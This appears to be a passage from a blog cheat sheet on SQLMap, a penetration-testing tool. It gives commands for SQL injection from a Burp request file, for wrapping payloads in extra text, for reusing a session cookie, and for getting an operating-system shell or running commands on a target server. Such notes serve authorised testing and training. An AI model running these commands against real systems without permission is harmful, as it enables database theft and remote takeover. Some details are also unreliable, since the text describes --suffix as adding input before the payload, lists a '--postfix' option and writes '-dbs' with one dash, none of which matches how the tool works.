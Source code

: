 ### SQLMap from Burp file 

Save a Burp or Zap request file and mark the injection point(s) parameters with an asterisk (*), the good thing about this option is that it takes care of any authentication cookies for you. You can inject into any parameter in the request, e.g., headers, inside cookies, and using multiple methods (GET, PUT, POST, DELETE) etc. 

{% highlight bash %}

sqlmap -r request.burp 

{% endhighlight %}

### Custom SQL Injection Payload: Pre and Post Input 

In a scenario where you have identified a SQL injection manually or via another tool, you may need to suffix (have input entered before the SQL injection payload) or postfix (have input inserted after the injection payload), this can be accomplished using the following: 

How to insert input before an injection payload: 

{% highlight bash %}

sqlmap -u "https://highon.coffee" -dbs --suffix="blah"  

{% endhighlight %}

How to insert input after an injection payload: 


{% highlight bash %}

sqlmap -u "https://highon.coffee" -dbs --postfix="--+"  

{% endhighlight %}

### SQLMap Cookie 

{% highlight bash %}

--cookie="PHPSESSID=$your-cookie"

{% endhighlight %}

### SQLMap Shell 

How to get an operating system command shell with SQLMap: 

{% highlight bash %}

--os-shell 

{% endhighlight %}

How to execute a command with SQLMap: 

{% highlight bash %}

--os-cmd uname 

{% endhighlight %}
